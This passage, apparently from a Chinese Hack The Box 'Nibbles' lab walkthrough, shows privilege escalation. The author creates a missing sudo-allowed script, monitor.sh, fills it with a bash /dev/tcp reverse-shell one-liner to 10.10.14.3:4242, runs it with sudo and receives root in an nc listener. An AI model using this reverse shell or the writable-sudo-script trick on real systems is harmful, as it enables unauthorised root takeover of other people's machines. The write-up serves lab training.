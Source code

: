 可以执行一个叫monitor.sh的文件

但是这个文件在系统中是不存在的
```
nibbler@Nibbles:/home$ cat /home/nibbler/personal/stuff/monitor.sh
cat /home/nibbler/personal/stuff/monitor.sh
cat: /home/nibbler/personal/stuff/monitor.sh: No such file or directory

```

所以思路很简单，我们创建这个文件，然后反弹一个root shell

1. 准备monitor.sh的内容为：
```
#!/bin/bash
0<&196;exec 196<>/dev/tcp/10.10.14.3/4242; sh <&196 >&196 2>&196

```

2. kali 开启一个新的监听
> nc -lnvp 4242

3. sudo执行
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo  /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo  /home/nibbler/personal/stuff/monitor.sh            
/home/nibbler/personal/stuff/monitor.sh: line 2: 196: Bad file descriptor
```

4. 收到root权限反弹
```
┌──(root💀kali)-[~/htb/Nibbles]
└─# nc -lnvp 4242                                                                                                                                                                                             1 ⨯
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.75] 43962
id
uid=0(root) gid=0(root) groups=0(root)
whoami        
root

```
